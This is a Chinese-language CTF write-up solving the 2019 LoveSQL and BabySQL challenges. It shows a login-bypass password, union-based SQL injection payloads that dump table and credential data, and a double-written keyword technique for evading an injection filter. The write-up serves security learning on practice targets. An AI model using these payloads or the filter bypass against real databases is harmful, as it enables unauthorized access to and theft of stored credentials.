 ```yaml
---
title: lovesql
date: 2024-09-13 19:16:12
permalink: /pages/7402d2/
sidebar: false
article: false
---
```

## [极客大挑战 2019]LoveSQL

提交参数，url后拼接了参数和值

![1](https://the0n3.top/medias/daily/lovesql/1.png)

hackbar测试admin用户万能密码，可以成功登录。username的`#`井号需要url编码

![2](https://the0n3.top/medias/daily/lovesql/2.png)

`order by`测试字段数，3正常，4报错。只有3个字段

![3](https://the0n3.top/medias/daily/lovesql/3.png)

联合注入，2，3是回显位

![4](https://the0n3.top/medias/daily/lovesql/4.png)

使用hackbar自带的sql注入，爆出库，表`geekuser`,`l0ve1ysq1`，字段`username`,`password`

![5](https://the0n3.top/medias/daily/lovesql/5.png)

![6](https://the0n3.top/medias/daily/lovesql/6.png)

hackbar没有具体到字段数据，写一个查数据语句

```sql
union select 1,group_concat(username,password),3 from l0ve1ysq1
```

拿到flag

## [极客大挑战 2019]BabySQL

上一题的万能密码拿来用报错了

![7](https://the0n3.top/medias/daily/lovesql/7.png)

双写or，发现就可以过了，说明这题过滤了常用字符串，替换成空格，导致题目报错

![8](https://the0n3.top/medias/daily/lovesql/8.png)

双写联合注入

![9](https://the0n3.top/medias/daily/lovesql/9.png)

查询语句的from,where,information里的`or`也被吞掉了，需要双写
![10](https://the0n3.top/medias/daily/lovesql/10.png)

查表`b4bsql,geekuser`，查字段`id,username,password`，查数据

```sql
# 爆表
ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema=database()
# 爆字段
ununionion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_schema=database()
# 爆数据，password的or也要双写
ununionion seselectlect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql%23
```